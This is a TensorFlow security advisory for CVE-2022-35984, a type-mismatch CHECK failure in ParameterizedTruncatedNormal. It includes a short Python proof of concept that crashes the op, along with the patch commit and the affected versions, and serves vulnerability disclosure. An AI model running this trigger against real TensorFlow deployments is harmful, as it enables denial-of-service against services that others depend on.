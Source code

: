 ## TFSA-2022-115: `CHECK` fail in `ParameterizedTruncatedNormal`

### CVE Number
CVE-2022-35984

### Impact
`ParameterizedTruncatedNormal` assumes `shape` is of type `int32`. A valid `shape` of type `int64` results in a mismatched type `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
seed = 1618
seed2 = 0
shape = tf.random.uniform(shape=[3], minval=-10000, maxval=10000, dtype=tf.int64, seed=4894)
means = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
stdevs = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
minvals = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
maxvals = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
tf.raw_ops.ParameterizedTruncatedNormal(shape=shape, means=means, stdevs=stdevs, minvals=minvals, maxvals=maxvals, seed=seed, seed2=seed2)
```

### Patches
We have patched the issue in GitHub commit [72180be03447a10810edca700cbc9af690dfeb51](https://github.com/tensorflow/tensorflow/commit/72180be03447a10810edca700cbc9af690dfeb51).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
